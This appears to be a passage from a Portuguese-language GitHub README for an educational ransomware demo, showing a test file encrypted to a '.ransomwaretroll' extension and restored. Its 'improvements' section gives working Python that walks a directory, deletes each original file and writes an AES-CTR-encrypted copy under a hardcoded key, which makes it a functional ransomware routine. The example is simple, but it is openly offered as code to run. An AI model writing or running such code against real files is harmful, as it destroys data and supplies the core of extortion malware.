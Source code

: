 ### Entrada:

- Arquivo original: `teste.txt`, que contém o seguinte texto:
  ```
  Olá, este é um teste de criptografia!
  ```

### Saída após execução do `encripter.py`:

- Arquivo criptografado: `teste.txt.ransomwaretroll` (os dados agora são irreconhecíveis, pois estão criptografados).

### Saída após execução do `decripter.py`:

- Arquivo descriptografado: `teste.txt`, com o conteúdo original:
  ```
  Olá, este é um teste de criptografia!
  ```

## Melhorias e Automação

Para tornar o processo de criptografia e descriptografia mais automatizado e eficiente, algumas melhorias podem ser feitas:

1. **Automação do Processo com Diretórios**: É possível modificar o código para criptografar todos os arquivos em um diretório e, posteriormente, descriptografá-los de forma automatizada.
   
   Exemplo:
   ```python
   import os
   import pyaes

   def encrypt_directory(directory_path):
       for filename in os.listdir(directory_path):
           file_path = os.path.join(directory_path, filename)
           if os.path.isfile(file_path):
               encrypt_file(file_path)

   def encrypt_file(file_path):
       with open(file_path, 'rb') as file:
           file_data = file.read()
       
       os.remove(file_path)

       key = b"testeransomwares"
       aes = pyaes.AESModeOfOperationCTR(key)
       encrypted_data = aes.encrypt(file_data)

       new_file_path = file_path + ".ransomwaretroll"
       with open(new_file_path, 'wb') as new_file:
           new_file.write(encrypted_data)
   ```

2. **Logs de Ações**: Adicionar logs para monitorar o que está acontecendo durante o processo de criptografia/descriptografia, o que ajudaria em auditorias ou na recuperação de arquivos.
